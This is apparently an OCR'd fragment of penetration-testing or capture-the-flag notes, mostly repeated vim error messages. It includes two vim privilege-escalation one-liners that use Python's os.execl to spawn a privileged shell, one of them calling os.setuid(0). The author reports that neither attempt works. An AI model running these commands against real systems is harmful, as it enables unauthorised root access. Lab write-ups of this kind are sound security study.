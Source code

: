   

E79: Cannot expand wildcards

  

E79: Cannot expand wildcards

  

E79: Cannot expand wildcards

  

E79: Cannot expand wildcards

  

E79: Cannot expand wildcards

  

E79: Cannot expand wildcards

  

E79: Cannot expand wildcards

  

E79: Cannot expand wildcards

  

-- More --  

So to make this work I'll refer to the same vim.basic location then run the command 

  

/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh -p")'

E79: Cannot expand wildcards

-- More --                                                                                                                                                                             

Press ENTER or type command to continuereset: unknown terminal type unknown

Terminal type?   

  

xterm or eterm bypasses this.

  

No dice though so trying another vim privesc

  

/usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

E79: Cannot expand wildcards

-- More --   

E79: Cannot expand wildcards

-- More --   

E79: Cannot expand wildcards
